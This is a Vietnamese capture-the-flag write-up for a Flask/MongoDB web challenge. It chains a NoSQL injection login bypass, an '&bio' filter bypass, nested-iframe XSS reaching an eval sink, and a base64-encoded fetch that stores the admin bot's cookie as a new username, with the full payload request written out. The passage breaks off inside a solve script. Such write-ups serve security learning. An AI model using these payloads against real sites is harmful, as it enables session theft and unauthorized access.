

Bài này có flag khi ta report admin bot và lấy được cookie của bot:

```python
from playwright.sync_api import sync_playwright
import os

def visit(url):
    admin_password = os.getenv("ADMIN_PASSWORD", "admin")
    flag = os.getenv("FLAG", "bi0sctf{testflag}")

    with sync_playwright() as p:

        browser = p.chromium.launch(
            headless=True,
            args=[
                "--no-sandbox",
                "--disable-dev-shm-usage",
                "--disable-gpu"
            ]
        )
        page = browser.new_page()

        try:

            page.goto("http://localhost:5000/login", wait_until="networkidle")
            page.wait_for_timeout(1000)

            # Fill out the login form
            page.fill("#username", "admin")
            page.fill("#password", admin_password)
            page.click("button[type='submit']")
            print("Logged in as admin")

            page.wait_for_timeout(1000)  

            page.context.add_cookies([{
                'name': 'flag',
                'value': flag,
                'domain': 'localhost',
                'path': '/',
                'httpOnly': False,
                'sameSite': 'Lax',
                'secure': False
            }])

            print(f"Visiting URL: {url}")
            page.goto(url, wait_until="networkidle")
            page.wait_for_timeout(3000)  

        except Exception as e:
            print(f"Bot error: {str(e)}")
        finally:
            browser.close()
```

Đây là một dạng bài XSS trong đó mình tìm cách để thực hiện một đoạn code javascript tùy ý trên web và khi report bot có thể vào trang web đã dính script. Đầu tiên ta cần đọc qua source: 

```python
# app.py

from flask import Flask, request, jsonify, session, render_template, redirect
from functools import wraps
from pymongo import MongoClient
from bson.objectid import ObjectId
import os
from bot import visit

# Initialize MongoDB

client = MongoClient(os.getenv("MONGO_URI", "mongodb://localhost:27017/"))


def init_db():
    db = client["user_db"]
    users_collection = db["users"]
    # create an admin user if it doesn't exist
    if not users_collection.find_one({"username": "admin"}):
        users_collection.insert_one(
            {
                "username": "admin",
                "password": os.getenv("ADMIN_PASSWORD", "admin"),
                "bio": "",
            }
        )
        print("Admin user created with default password.")
    return users_collection


app = Flask(__name__)

# set session sercret key
app.config["SECRET_KEY"] = os.urandom(24)


# set CSP header for all responses
@app.after_request
def set_csp(response):
    response.headers["Content-Security-Policy"] = (
        "default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' ;"
    )
    return response


def login_required(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if "username" not in session:  # Check if user is logged in
            return jsonify({"error": "Unauthorized access"}), 401
        return f(*args, **kwargs)

    return decorated_function


def check_admin(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        if session.get("username") != "admin":  # Check if user is admin
            return jsonify({"error": "Unauthorized access"}), 401
        return f(*args, **kwargs)

    return decorated_function


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "GET":
        return render_template("register.html")

    data = request.json
    username = data.get("username")
    password = data.get("password")

    # only alphanumeric characters and spaces in username
    username = "".join(filter(lambda x: x.isalnum() or x.isspace(), username))

    if not username or not password:
        return jsonify({"error": "Username and password are required"}), 400
    try:
        if users_collection.find_one({"username": username}):
            return jsonify({"error": "Username already exists"}), 400
        users_collection.insert_one(
            {"username": username, "password": password, "bio": ""}
        )
        session["username"] = username  # Log the user in after registration
        return jsonify({"message": "User registered successfully"}), 201
    except Exception as e:
        return jsonify({"error": str(e)}), 500


@app.route("/login", methods=["GET", "POST"])
def login():
    # Handle user login with session management
    if request.method == "GET":
        return render_template("login.html")

    data = request.json
    username = data.get("username")
    password = data.get("password")
    if not username or not password:
        return jsonify({"error": "Username and password are required"}), 400
    user = users_collection.find_one({"username": username, "password": password})
    if user:
        session["username"] = username  # Store username in session
        return jsonify({"message": "Login successful"}), 200
    else:
        return jsonify({"error": "Invalid credentials"}), 401


@app.route("/update_bio", methods=["POST"])
@login_required
def update_bio():

    username = session.get("username")
    if not username or username == "admin":
        return jsonify({"error": "Invalid user"}), 401

    data = request.json
    if "username" in data or "password" in data:
        return jsonify({"error": "Cannot update username or password"}), 400
    bio = data.get("bio", "")   
    if not bio or any(
        char not in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 "
        for char in bio
    ):
        return jsonify({"error": "Invalid bio"}), 400

    result = users_collection.update_one({"username": username}, {"$set": data})
    if result.matched_count > 0:
        return jsonify({"message": "Bio updated successfully"}), 200
    else:
        return jsonify({"error": "Failed to update bio"}), 500


@app.route("/users")
@login_required
@check_admin
def users():
    return render_template("users.html")


@app.route("/api/users", methods=["GET"])
@login_required
@check_admin
def get_users():
    name = request.args.get("name")
    print(f"Searching for users with name: {name}")
    if name:
        users = list(
            users_collection.find(
                {"username": {"$regex": name, "$options": "i"}},
                {"_id": 0, "password": 0},
            )
        )
    else:
        return jsonify({"error": "Name is required"}), 400
    return jsonify(users), 200


@app.route("/render")
@login_required
@check_admin
def render_page():
    return render_template("render.html")


@app.route("/report", methods=["GET", "POST"])
@login_required
def report():
    if request.method == "GET":
        return render_template("report.html")

    data = request.json
    name = data.get("name")
    if not name:
        return jsonify({"error": "Name is required"}), 400
    url = f"http://localhost:5000/users?name={name}"
    try:
        visit(url)
        return jsonify({"message": f"Bot visited /users?name={name}"}), 200
    except Exception as e:
        return jsonify({"error": f"Bot failed to visit URL: {str(e)}"}), 500


if __name__ == "__main__":
    users_collection = init_db()
    app.run(host="0.0.0.0", port=int(os.getenv("PORT", 5000)))

```

Đúng như dạng XSS là có một endpoint /report dùng để report profile của một người dùng. Vậy nhiệm vụ của ta là làm sao trang để report đó chạy được script

Ở đây để xem được profile của user thì buộc phải là admin và mình để ý đoạn code sau:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    # Handle user login with session management
    if request.method == "GET":
        return render_template("login.html")

    data = request.json
    username = data.get("username")
    password = data.get("password")
    if not username or not password:
        return jsonify({"error": "Username and password are required"}), 400
    user = users_collection.find_one({"username": username, "password": password})
    if user:
        session["username"] = username  # Store username in session
        return jsonify({"message": "Login successful"}), 200
    else:
        return jsonify({"error": "Invalid credentials"}), 401

```

Ở đây sử dụng data từ mongodb và không có một filter nào nên ta dễ dàng thực hiện NoSQL Injection như sau:

```json
{
    "username":"admin",
    "password":{
        "$ne":"abc"
    }
}
```

Đăng nhập thành công: 



Dashboard của admin:



Để xem được profile thì mình tạo một user winky mới và sử dụng endpoint /users như sau:



Ok và ta đã thành công đăng nhập admin và xem được bây giờ làm sao để thực hiện XSS? 

Đọc lại đoạn CSP sau:


```python
# set CSP header for all responses
@app.after_request
def set_csp(response):
    response.headers["Content-Security-Policy"] = (
        "default-src 'self'; script-src 'self' 'unsafe-eval'; style-src 'self' ;"
    )
    return response
```

Và file users.js

```js
document.addEventListener("DOMContentLoaded", async function() {
    const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
    // get url serach params
    const urlParams = new URLSearchParams(window.location.search);
    const name = urlParams.get('name');
    if (name) {
        fetch(`/api/users?name=${name}`)
            .then(response => response.json())
            .then(data => {
                frames = data.map(user => {
                    return `
                        <iframe src="/render?${Object.keys(user).map((i)=> encodeURI(i+"="+user[i]).replaceAll('&','')).join("&")}"></iframe>
                    `;
                }).join("");
                document.getElementById("frames").innerHTML = frames;
            })
            .catch(error => {
               console.log("Error fetching user data:", error);
            })
        
    }
    if(window.name=="admin"){
            js = urlParams.get('js');
            if(js){
                eval(js);
            }
            
    }
    
})
```

Để ý có dòng eval(js) và csp cho phép chạy script unsafe-eval nên mình chắc chắn đây là hướng duy nhất để chạy script.

Nhưng làm sao để trigger được cái eval này? Điều kiện của nó là window.name=="admin" và có một param 'js' chứa lệnh cần eval.

Ta ngó lại file render.html:

```html
<!DOCTYPE html>
<html>
    <head>
        <title>Profile</title>
        <link rel="stylesheet" type="text/css" href="{{ url_for('static', filename='style.css') }}">

    </head>
    <body>
        <div class="container">
           <h1>User Profile</h1>
            <p id="name">{{ request.args.get('username') }}</p>
            <p id="bio">{{ request.args.get('bio') |safe }}</p>
        </div>
</html>
```

Để ý răng bio truyền vào có thể là một html tag và được render nên ta có thể chèn vào iframe hoặc script. Nhưng ... bio chỉ chứa các char trong đoạn "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 ".



Vậy làm sao để bypass? Ở đây mình để ý 

```html
<iframe src="/render?${Object.keys(user).map((i)=> encodeURI(i+"="+user[i]).replaceAll('&','')).join("&")}"></iframe>
```

Khi render iframe thì web sẽ replace các dấu & có trong các attribute của object của user và join lại với nhau. Từ đây ta có cách bypass là thêm một dấu & trước bio và update từ đó bypass được.

Và thành công ta đã chèn được một iframe vào profile như sau:





Từ đây, ta sẽ có hướng tấn công như sau:

+ Vì chỉ có file users.html là chứa users.js nên ta có thể khai thác được lệnh eval nhưng nó cũng chứa file index.js và làm cho window.name='notadmin' nên không thể khai thác được.
+ File render.html thì không include file js nào nhưng ta có thể tự include thông qua bio và ta sẽ chèn một đoạn `<script src='http://localhost:5000/static/users.js'></script>` Từ đó lấy được file users.js mà không liên quan tới file index.js
+ Về phần params thì ta cũng sẽ truyền qua /render nhưng vì đoạn render iframe đã filter dấu & nên ta phải render 2 lần iframe để sử dụng %26 thay vì &

Trước tiên ta sẽ bypass đoạn %26 trước để làm được thì ta add một đoạn bio như sau:





Vậy là đã chèn được 2 param lúc này mình cần chỉnh lại param và window.name thành 'admin' như sau:



```html
<iframe src='http://localhost:5000/render?bio=<iframe src=\"http://localhost:5000/render?bio=<script src=%27http://localhost:5000/static/users.js%27></script>%26js=alert(1)\" name=\"admin\" />' />
```

Trong đó bio là `<script src=%27http://localhost:5000/static/users.js%27>` để load file js, js là alert(1) để test XSS và window.name='admin' để thỏa yêu cầu. Và bumphhhhh....



Vậy là đã chạy script tùy ý thành công. Bây giờ ta phải tìm cách để lấy cookie của admin và lưu lại ở đâu đó để ta có thể xem lại vì đó là flag. Nhận ra rằng CSP đã cấm chạy lệnh fetch webhook vì fetch content không thuộc trang web lúc này ta mới nghĩ đến việc lấy cookie và thay đổi bio của admin vì ta cũng đang có thể truy cập tài khoản admin thông qua NoSQL injection.

Nhưng .... Làm gì dễ thế

```python
@app.route("/update_bio", methods=["POST"])
@login_required
def update_bio():

    username = session.get("username")
    if not username or username == "admin":
        return jsonify({"error": "Invalid user"}), 401
```

Ở đây web cấm user admin đổi bio luôn. Ngó qua ngó lại thì mình thấy chỉ còn /register là dùng được từ đó mình có thể sử dụng /api/users để xem user được tạo ra là flag

Từ đó ta có một lệnh fetch như sau:

```js
fetch('http://localhost:5000/register', {
  method: 'POST',
  headers: {
    'Host': 'localhost:5000',
    'Content-Length': '45',
    'Accept-Language': 'en-US,en;q=0.9',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36',
    'Content-Type': 'application/json',
    'Accept': '*/*',
    'Accept-Encoding': 'gzip, deflate, br',
    'Connection': 'keep-alive'
  },
  body: JSON.stringify({
    'username': btoa(document.cookie),
    'password': 'cccccccc'
  })
});
```

Trong đó username là cookie đã được base64 đã bypass filter. Mình tiến hành base64 và có payload như sau:



```request
POST /update_bio HTTP/1.1
Host: localhost:5000
Content-Length: 961
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VybmFtZSI6Indpbmt5In0.aEW7Fw.H3OBF8LPjbmZEDSMIJNZlY6Bn0A
Connection: keep-alive

{
"&bio":"<iframe src='http://localhost:5000/render?bio=<iframe src=\"http://localhost:5000/render?bio=<script src=%27http://localhost:5000/static/users.js%27></script>%26js=eval(atob(%27ZmV0Y2goJ2h0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9yZWdpc3RlcicsIHsKICBtZXRob2Q6ICdQT1NUJywKICBoZWFkZXJzOiB7CiAgICAnSG9zdCc6ICdsb2NhbGhvc3Q6NTAwMCcsCiAgICAnQ29udGVudC1MZW5ndGgnOiAnNDUnLAogICAgJ0FjY2VwdC1MYW5ndWFnZSc6ICdlbi1VUyxlbjtxPTAuOScsCiAgICAnVXNlci1BZ2VudCc6ICdNb3ppbGxhLzUuMCAoWDExOyBMaW51eCB4ODZfNjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMzQuMC4wLjAgU2FmYXJpLzUzNy4zNicsCiAgICAnQ29udGVudC1UeXBlJzogJ2FwcGxpY2F0aW9uL2pzb24nLAogICAgJ0FjY2VwdCc6ICcqLyonLAogICAgJ0FjY2VwdC1FbmNvZGluZyc6ICdnemlwLCBkZWZsYXRlLCBicicsCiAgICAnQ29ubmVjdGlvbic6ICdrZWVwLWFsaXZlJwogIH0sCiAgYm9keTogSlNPTi5zdHJpbmdpZnkoewogICAgJ3VzZXJuYW1lJzogYnRvYShkb2N1bWVudC5jb29raWUpLAogICAgJ3Bhc3N3b3JkJzogJ2NjY2NjY2NjJwogIH0pCn0pOwoK%27))\" name=\"admin\" />' />",
"bio":"hello from winky"
}
```

Tiến hành report user winky và thấy có 1 request register như sau:





Vậy là đã đăng ký được một user có username là flag. Bây giờ chỉ cần tìm user bằng /api/users



Solve script hoàn chỉnh:

```python
import requests
import json
import base64

s = requests.session()
CHALL_URL = "http://app-imqvl28e.eng.run/"

def register(s):
    username = "winky"
    password = "12345678"
    json_data = {
        "username": username,
        "password": password
    }
    s.post(CHALL_URL + "register", json=json_data)
    print(f"[*] Registered successfully user {username}")

def login(s):
    username = "winky"
    password = "12345678"
    json_data = {
        "username": username,
        "password": password
    }
    s.post(CHALL_URL + "login", json=json_data)
    print(f"[*] Login successfully user {username}")

